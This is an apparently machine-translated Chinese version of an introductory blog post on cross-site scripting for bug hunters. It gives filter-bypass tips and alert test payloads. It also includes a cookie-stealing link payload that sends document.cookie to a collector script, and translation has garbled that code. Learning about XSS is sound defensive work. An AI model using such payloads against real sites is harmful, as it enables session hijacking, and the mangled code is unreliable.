

# 幕后:XSS

> 原文：<https://infosecwriteups.com/behind-the-scene-xss-6a7ff5559b54?source=collection_archive---------2----------------------->

嘿，赛博朋克们，我希望你们都过得很好，如果不是，那么你是在正确的地方，至少**把 XSS** 的疑问从你的生活中移除。这篇文章会让你接近完美(众所周知，人无完人:P)。所以，不浪费任何时间**让我们深入研究一下**。

> **注意:-** 我会让它**非常简单**这样你就能真正了解 XSS 的幕后#了。此外，我不会涵盖不同类型的 XSS，因为你可以在互联网上找到它。本文将讨论后端过程和一些绕过 XSS 的技术。没有书生气的语言。只是黑客语言。

在我们开始之前，让我们了解一下 XSS 到底是什么？

**XSS(跨站脚本)是什么黑客？**

**XSS 是**一个**客户端代码注入攻击**。我的意思是，通过在真正的网页中嵌入恶意代码，攻击者希望在受害者的 web 浏览器上执行有害的脚本。

我发现这个图像有助于清楚地理解这个概念。看一看，试着去理解到底发生了什么？

XSS 的运作

还有什么疑问吗？别担心，让我们用一个例子更深入地探讨一下。

> **示例**
> 
> 1.假设你正在测试一个站点**xyz.com**，你发现，你可以在任何参数/脆弱点注入你的脚本。
> 
> 2.然后你注入你的脚本比如说"<**一个 onl cick document . location = " http://localhost/ethical kaps/get cookies . PHP？cookie = '+escape(document . cookie)；href = " https://ethical kaps . com ">点击此处< /a > "** 。(这基本上会从受害者的会话中窃取 cookie)
> 
> 3.该脚本进入 web 应用程序，并操纵网站代码。
> 
> 4.现在，当受害者访问您通过 **href、**创建的链接时，您将能够获取受害者的会话 cookie。

**简单对吗？**是啊，**T27 果然是**啊！！但大多数情况下，开发者会对用户输入进行净化，因此我们无法将有效载荷直接注入网站，所以我们会寻找其他方法来绕过净化。

**几种绕过限制的方法:-**

1.  对你的有效载荷使用编码。(例如 **<** 可以编码为%3C，**？**如%3F%0A 等。)
2.  如果你的有效载荷反映在网站上，而不是执行。然后查看页面源代码，看看你的有效载荷卡在哪里了&据此对你的有效载荷进行修改。
3.  有时我们会因为视觉而错过 XSS，所以别忘了试试盲人 XSS。(我个人用的是 **XSS 猎人**。 **)**
4.  如果参数没有速率限制，您可以使用入侵者攻击，并注入有效负载列表。

我个人更喜欢:-

 [## 跨站点脚本(XSS)备忘单- 2021 版|网络安全学院

### 这个跨站点脚本(XSS)备忘单包含许多可以帮助你绕过 WAFs 和过滤器的向量。你可以…

portswigger.net](https://portswigger.net/web-security/cross-site-scripting/cheat-sheet) 

原因是他们定期更新他们的有效载荷列表。

这些是你不能忘记留意的一些方法。如果您想更多地了解如何绕过编码限制。

访问:-

 [## XSS 滤波规避备忘单

### OWASP 基金会的主要网站上的 XSS 过滤器规避小抄。OWASP 是一个非营利基金会，致力于…

owasp.org](https://owasp.org/www-community/xss-filter-evasion-cheatsheet) 

一些实用的有效载荷。

所以黑客们，现在是你们决定是否真的只是找出“参数”或“搜索”字段并运行这些类型的有效载荷的时候了？例如 **" > <脚本>alert(" cyber punks here ")</脚本>，"><SVG/onload = alert(1)>**等。或者还有其他原因？

继续挖掘和学习新的东西。我会带着另一个**#回到你的场景后面**一些其他的弱点。在那之前，小心点，继续狩猎。

**觉得这个帖子有用？请点击**👏**按钮下面！:)**

如果你喜欢这些内容，你可以在这里支持我:-**@**[**buymeacoffee.com/ethicalkaps**](http://buymeacoffee.com/ethicalkaps)

下一篇文章再见。在那之前保重。和平！

> 你可以在 [**推特**](https://twitter.com/EthicalKaps) 上关注我，在 [**Spotify**](https://open.spotify.com/show/49AHAyFgIy7E2NDjuGRaMm?si=lVPL_DBGRkGIC8DzfTXNbw) 上关注我的评论，在 [**Instagram**](https://www.instagram.com/iam_kapilchoudhary/) 上关注我。

## 如果你喜欢这个故事，请点击👏按钮并分享，帮助其他人找到它！欢迎在下方留言评论。